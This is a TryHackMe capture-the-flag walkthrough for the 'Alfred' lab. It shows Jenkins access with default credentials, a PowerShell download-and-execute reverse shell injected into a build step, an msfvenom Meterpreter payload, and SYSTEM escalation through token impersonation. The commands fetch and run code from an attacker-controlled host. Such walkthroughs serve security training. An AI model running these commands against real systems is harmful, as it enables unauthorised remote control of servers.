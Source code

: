 ﻿---
title: 'Alfred - TryHackMe Walkthrough'
date: 2020-07-02 00:00:00
featured_image: '/images/posts/jenkins-cyberark.jpg'
excerpt: Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.
---

![](/images/posts/alfred-jenkins.png)

### Goal
Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.

### Reconnaissance
The default page of the web server on port 80 is showing a image of Bruce Wyne and a donations email. But nothing else.

With the help on nmap, lets see what ports are open and services are running on the victim machine.

```bash
    $ nmap -p- -A 10.10.86.199

    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Site doesn't have a title (text/html).
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-02T21:47:32+00:00; 0s from scanner time.
    8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(9.4.z-SNAPSHOT)
    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- On port 80, we can see Microsoft IIS 7.5 web server is running.  
- 8080 - Another HTTP server on Jetty 9.4 and a robots.txt is there which can help. By visiting on port 8080, there is a Jenkins service running.  
- 3389 - Looks RDP port is open.  
- Operating System: Windows  

### Logging into Jenkins
Thought to brute force using different payloads, but while trying to capture the HTTP request, the *admin:admin* credentials worked.

### Getting a reverse shell
After looking around the tool, for executing the command on the underlying machine, found it under project --> configure --> Build.
As this is a Windows operating system, framed a powershell utility which can get executed and opens a reverse shell.
For this,
- Download the powershell code which opens a reverse shell from [Git.](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)  
- Start a simple webserver using `python3 -m http.server` in the same directory. So the victim will be able to download the powershell code file.
- Frame the command that needs to get executed on the operating system. In this case, I will listen for remote shell on 8001 port.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.18.4:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.18.4 -Port 8001
```

- Open netcat in another terminal and listen on 8001 port. `nc -lnvp 8001`
- Navigate to Jenkins and goto, project configuration and paste the powershell command that was framed above under build. So our command will become part of build process.
- Build the project using "Build now" and the victim is connected to http server and downloaded the reverse shell code and then a reverse shell in the netcat server.
- The reverse shell is opened with user alfred\bruce and have below privileges enabled:

```bash
    PS C:\Users\bruce\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                  Description                               State   
    =============================== ========================================= ========
    SeDebugPrivilege                Debug programs                            Enabled
    SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
    SeImpersonatePrivilege          Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege         Create global objects                     Enabled

```
- The flag is under  `C:\Users\bruce\Desktop\user.txt` as *79007a09481--------1321abd9ae2a0*.


### Getting a Meterpreter shell
For much convenience and to work on privilege escalation, lets get a Meterpreter shell.
- Create a payload file which opens a reverse shell and save it in the same place where the webserver is running, so the victim will be able to download.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=8002 -f exe -o shell.exe
```

- Create a reverse shell listener using Metasploit with exploit/multi/handler and having a PAYLOAD windows/meterpreter/reverse_tcp LHOST 10.2.18.4 LPORT 8002.

```bash
msf5 exploit(multi/handler) > run  
[*] Started reverse TCP handler on 10.2.18.4:8002
```

- Get this shell.exe downloaded to victim machine by executing the powershell command on the reverse shell that was already opened and start the process.

```bash
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
PS C:\Users\bruce\Desktop> dir


Directory: C:\Users\bruce\Desktop

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          7/2/2020   5:01 PM      73802 shell.exe                         
-a---        10/25/2019   3:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> Start-Process "shell.exe"
```

- The metasploit now will open a meterpreter shell:

```

    meterpreter > sysinfo
    Computer        : ALFRED
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter >
```

- `load incognito` module in meterpreter.
- List all the tokens that are available for the user, using `list_tokens -g` and we can see the user has a delegation token of BUILTIN\Administrators.
- Lets impersonate as administrator using `impersonate_token "BUILTIN\Administrators"`.
- Verify, by using `getuid`  

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
- Though we have privileged user, due to impersonating we will not be able to access complete system due to windows security.  To test this, goto C:\Windows\system32\config directory and will see only files which have full permissions.

```
meterpreter > dir
Listing: C:\Windows\system32\config
===================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  Journal
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  RegBack
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  TxR
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  systemprofile
```

- We need migrate our process (shell.exe) whose pid is 1440, to a more stable and equally privileged process by checking the processes that are running on the victim using ps.

```
1440  2848  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe
```

```
meterpreter > ps
(ommitted other entries..)
668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 1440 to 668...
[*] Migration completed successfully.
meterpreter > ls -lrt
Listing: C:\Windows\system32\config
===================================

```

- Now we can see all the files under config including our flag root.txt, which has the value *dff0f748678--------25a45b8046b4a*.
